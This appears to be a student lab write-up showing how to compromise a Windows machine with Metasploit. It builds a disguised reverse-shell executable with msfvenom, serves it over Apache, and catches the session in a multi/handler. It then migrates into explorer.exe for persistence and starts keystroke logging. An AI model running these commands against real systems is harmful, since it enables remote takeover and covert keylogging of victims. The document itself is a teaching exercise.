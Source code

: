 ```
NAME : THIRUMALAI K
DEPT : AIML
REG NO : 212224240176

```



# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


### Find the attackers ip address using ifconfig

## OUTPUT :

![IFCONFIG](img/01.png)

### Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT :

![PAYLOAD](img/02.png)

copy the fun.exe into the apache /var/www/html folder
sudo systemctl apache2 start

## Check the status of apache2

## OUTPUT :

![STATUS CHECK](img/03.png)

### Invoke msfconsole:
## OUTPUT:
![MSFCONSOLE](img/04.png)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## OUTPUT :
![HELP](img/05.png)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
## OUTPUT :

![RECENT](img/RECENT.png)

### WINDOWS :

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads

## BROWSE OUTPUT :

![SEARCH](img/G1.png)

## DOWNLOAD OUTPUT :

![DOWNLOAD](img/G2.png)

## COME BACK TO PARROT :

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

## OUTPUT :
![PS](<img/og 06.png>)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

## OUTPUT :

![NETSTAT](img/07.png)

## WINDOWS OUTPUT :
![TYPE](img/G3.png)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

## OUTPUT :

![TYPE OUTPUT](img/09.png)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
